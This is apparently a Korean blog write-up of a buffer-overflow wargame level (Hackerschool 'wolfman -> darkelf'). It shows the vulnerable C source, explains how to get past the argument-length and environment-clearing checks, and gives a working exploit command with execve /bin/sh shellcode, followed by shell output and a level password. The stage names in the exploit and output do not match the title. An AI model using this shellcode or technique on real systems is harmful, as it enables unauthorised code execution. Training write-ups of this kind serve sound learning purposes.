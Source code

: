 ```yaml
---
layout: post
title: "[Wargame] 해커스쿨 BoF LEVEL6 (wolfman -> darkelf) : check length of argv[1] + egghunter + bufferhunter"
date: 2015-11-07 23:50
comments: true
categories:  wargame
tags: [bof]
---
```


- id = wolfman 
- pw = love eyuna  

<!-- more -->

단계가 지날수록 제한조건이 하나씩 추가되는구나...

이번에는 `argv[1]` 사이즈가 48보다 작아야 하고, buffer 앞의 40bytes 는 clear 시킨다. 그렇다면 shellcode 는 두 번째 argument 로 넣고, `LR` 값은 두 번째 argument 있는 위치를 가르키도록 하면 되지 않을까...

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkelf
        - egghunter + buffer hunter + check length of argv[1]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
} 
```

## Exploit

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage6.png)

```bash
[NOP 44bytes][LR][NOP 20bytes][ShellCode]

./wolfman `python -c 'print "\x90"*44 + "\xe4\xfd\xff\xbf"'`  `python -c 'print "\x90"*30 + "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\xb0\x0b\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"'`
```

## Next stage

```bash
bash$ id °
uid=504(orc) gid=504(orc) euid=505(wolfman) egid=505(wolfman) groups=504(orc)

bash$ my-pass
euid = 505
love eyuna 
```